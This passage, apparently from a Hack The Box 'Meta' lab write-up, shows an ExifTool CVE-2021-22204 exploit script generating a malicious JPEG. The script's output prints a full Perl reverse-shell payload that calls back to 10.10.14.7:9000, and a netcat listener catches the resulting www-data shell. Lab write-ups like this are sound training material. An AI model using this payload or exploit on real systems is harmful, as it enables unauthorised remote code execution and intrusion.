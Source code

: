 Let's create another image with reverse shell payload this time.

```bash
┌──(kali㉿kali)-[~/htb/meta/exploit-CVE-2021-22204]
└─$ python exploit-CVE-2021-22204.py -s 10.10.14.7 9000  
/home/kali/htb/meta/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py:89: SyntaxWarning: invalid escape sequence '\c'
  payload = "(metadata \"\c${"

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(9000,inet_aton('10.10.14.7')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")                                                      
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"
```

Then, the listener soon spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/meta/exploit-CVE-2021-22204]
└─$ nc -nlvp 9000                                        
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.140] 49750
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ whoami
www-data
```

I got a shell as `www-data`!



# Shell as `thomas`

### Enumeration

Let's run `linPEAS`.
